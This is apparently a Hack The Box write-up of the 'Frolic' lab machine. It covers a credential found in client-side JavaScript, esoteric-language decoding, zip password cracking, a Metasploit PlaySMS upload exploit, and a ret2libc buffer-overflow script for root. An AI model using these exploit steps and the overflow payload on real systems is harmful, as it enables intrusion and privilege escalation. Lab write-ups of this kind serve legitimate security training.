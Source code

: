 ```yaml
---
title: Frolic
author: fieldraccoon
date: 2020-06-21 
categories: [hack-the-box, linux]
tags: [hack-the-box, binary-exploitation, crypto]
math: true
---
```

# FROLIC
frolic was a great box that involved a decent amount of binary exploitation(im not the best at this so if you want a more in
depth explanantion i suggest looking at other writeups, im just doing this so i have a record to look back at.)

>Skills involved in this box:
- enumeration 
- A bit of crypto 
- metasploit
- binary exploitation

# USER

After running an nmap scan we can see that there is quite a few ports open but the main ones that we need are 9999.
There is jsut a welcome message for nginx on the main page so we use dirbuster to search for directories, We use a few 
searches so i will just list all the interesting things that i found:
```
/admin
/backup
/dev
/test
/dev/backup/playsms
```
Taking a look at `/admin` We can see that it is a login page. We look into the source code of the site and find `login.js`:
```javascript
var attempt = 3; // Variable to count number of attempts.
// Below function Executes on click of login button.
function validate(){
var username = document.getElementById("username").value;
var password = document.getElementById("password").value;
if ( username == "admin" && password == "superduperlooperpassword_lol"){
alert ("Login successfully");
window.location = "success.html"; // Redirecting to other page.
return false;
}
else{
attempt --;// Decrementing by one.
alert("You have left "+attempt+" attempt;");
// Disabling fields after 3 attempts.
if( attempt == 0){
document.getElementById("username").disabled = true;
document.getElementById("password").disabled = true;
document.getElementById("submit").disabled = true;
return false;
}
}
}
```
One line sticks out the most and that is the `if ( username == "admin" && password == "superduperlooperpassword_lol"){
`
So now we have some creds, `admin:superduperlooperpassword_lol` we login to the login page and get met buy another site.
```
..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... ..... ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.? !.?.. ..... ..... ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! ..... ..... .!.!! !!!!! !!!!! !!!.? ..... ..... ..... ..!?! !.?!! !!!!! !!!!! !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... ..... ..... .?.?! .?... ..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?. ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... ..... ..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !.... ..... ..!.! !!!!! !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!! !!!!! !?.?! .?!!! !!!!! !!!!! !!!!! !!!!! .?... ....! ?!!.? ..... .?.?! .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?.. !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.? !!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!! !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!! !!!!! !!?.? !.?!! !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. ..... ..... .!.?. ..... ...!? !!.?! !!!!! !!?.? !.?!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!! !!!!! !!!!! !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... ..... ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! ..... ..!.! !!!!! !.?.
```
This is a ciphertext for an langauge called Ook! we find an online decoder for it(i used dcode.fr)
We get teh output:
```
Nothing here check /asdiSIAJJ0QWE9JAS
```
So we check that directory and we find a long base64 string:
```
UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwABBAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbsK1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmveEMrX4+T7al+fi/kY6ZTAJ3h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTjlurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkCAAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUGAAAAAAEAAQBPAAAAAwEAAAAA
```
Decoding this gives a weird output to we decide to decode it into a zip file.
```base64 -d base64.txt > file.zip```
Trying to unzip it shows us that it is password protected so we find a tool that can get us the password from it.
We find a tool called fcrackzip that will do the trick.
```
fcrackzip file.zip -u -D -p /usr/share/wordlists/rockyou.txt
```
After unzipping that we get a file called index.php that contains a long hex string. We decode this from hex and get a base64 string. After decoding that we get a string that appears to be in the language "brainfuck":
```
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..<
```
Of course we use an online decoder to translate this into english and it ourputs `idkwhatispass` We can only assume that this is the password for the playsms page.
We login on playsms with `admin:idkwhatispass` 
We spend a while searching for exploits to gain us a shell, we come accross a metasploit module using searchsploit that will do the trick. Its called `exploit/multi/http/playsms_uploadcsv_exec`
We set the appropriate options:
```
set password idkwhatispass
set rport 9999
set rhosts 10.10.10.111
set targeturi /playsms
set lhost {your tun0 ip}
exploit
```
We now get a shell as www-data and manage to read the user flag.

# ROOT

We find an SUID binary in /home/ayush/.binary, its called rop
we run it to see what it does, basically it just takes our input and outputs it. 
We do:
```
./rop AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
And we see that it returns a seg fault so we have a buffer overflow vulnerability.
We are going to do a ret2libc attack.
GDB is not installed on the box so we download a static version and then upload it via a metpreter session.
Theses are the exploitation steps:
```
on our box: 
gdb-peda$ pattern_create -l 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb rop
break *main
run AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
c
we get an address below the line that says segfault.
gdb-peda$ pattern_offset -q address_we_got
we will get an offset of 52
```
This shows us that the buffer overflows at 52 chars
Now we need to get all the addresses so we will start with finding the /bin/sh in libc
```
www-data@frolic:/home/ayush/.binary$ ldd rop 
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)    
        /lib/ld-linux.so.2 (0xb7fdb000)
        
www-data@frolic:/home/ayush/.binary$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 15ba0b /bin/sh
Also in gdb we do "p system" and "p exit" to find the addresses for system and exit 
 ```
So now we have all our addresses:
```
libc = 0xb7e19000
offset = 0x0015ba0b
/bin/sh = libc + offset = 0xb7f74a0b
system = 0xb7e53da0
exit = 0xb7e479d0
```
Now we have everything we need lets construct our script
```python
#!/usr/bin/python

import struct

buf = "A" * 52
system = struct.pack("I" ,0xb7e53da0)
exit = struct.pack("I" ,0xb7e479d0)
shell = struct.pack("I" ,0xb7f74a0b)
print buf + system + exit + shell
```
Then we simply run This command to exploit the binary and get a root shell and read the root flag:
```
./rop `python /tmp/exploit.py`
```
Thanks for reading and if you enjoyed make sure to check out my profile at 
https://www.hackthebox.eu/home/users/profile/246314


